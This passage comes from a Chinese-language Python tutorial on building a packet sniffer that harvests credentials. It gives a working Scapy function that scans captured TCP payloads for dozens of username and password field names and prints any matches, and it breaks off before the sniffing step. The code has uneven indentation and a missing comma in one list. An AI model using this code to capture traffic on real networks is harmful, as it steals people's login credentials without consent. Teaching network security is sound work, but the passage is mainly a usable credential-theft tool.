 1.  创建一个方法来检查嗅探到的内容中的用户名和密码：

```py
def get_login_pass(body):    
    user = None
    passwd = None    
    userfields = ['log','login', 'wpname', 'ahd_username', 
'unickname', 'nickname', 'user', 'user_name',
    'alias', 'pseudo', 'email', 'username', '_username', 'userid', 'form_loginname', 'loginname',
    'login_id', 'loginid', 'session_key', 'sessionkey', 'pop_login', 'uid', 'id', 'user_id', 'screename',
    'uname', 'ulogin', 'acctname', 'account', 'member', 'mailaddress', 'membername', 'login_username',
    'login_email', 'loginusername', 'loginemail', 'uin', 'sign-in', 'usuario']
    passfields = ['ahd_password', 'pass', 'password', '_password', 'passwd', 'session_password', 'sessionpassword', 
    'login_password', 'loginpassword', 'form_pw', 'pw', 'userpassword', 'pwd', 'upassword', 'login_password'
    'passwort', 'passwrd', 'wppassword', 'upasswd','senha','contrasena']    
     for login in userfields:
          login_re = re.search('(%s=[^&]+)' % login, body, re.IGNORECASE)
          if login_re:
              user = login_re.group()
      for passfield in passfields:
          pass_re = re.search('(%s=[^&]+)' % passfield, body, re.IGNORECASE)
         if pass_re:
             passwd = pass_re.group()    
     if user and passwd:
         return (user, passwd)  
```

在这里，我们使用数据中的关键字进行搜索，并提取用户名和密码（如果存在）。

1.  现在，创建一个函数来解析嗅探到的数据包：

```py
def pkt_parser(pkt):    
    if pkt.haslayer(Ether) and pkt.haslayer(Raw) and not pkt.haslayer(IP) and not pkt.haslayer(IPv6):
           pass       
      if pkt.haslayer(TCP) and pkt.haslayer(Raw) and pkt.haslayer(IP):
          pkt[TCP].payload
          mail_packet = str(pkt[TCP].payload)    
          body = str(pkt[TCP].payload)
          user_passwd = get_login_pass(body)
          if user_passwd != None:
              print(parse.unquote(user_passwd[0]).encode("utf8"))
              print(parse.unquote( user_passwd[1]).encode("utf8"))
      else:
          pass  
```

首先，我们将忽略没有 IP 层的原始数据包。然后我们获取 IP 层并提取有效载荷，并将其传递给`get_login_pass()`方法来提取凭据。

1.  现在，开始在提供的接口中嗅探数据包：
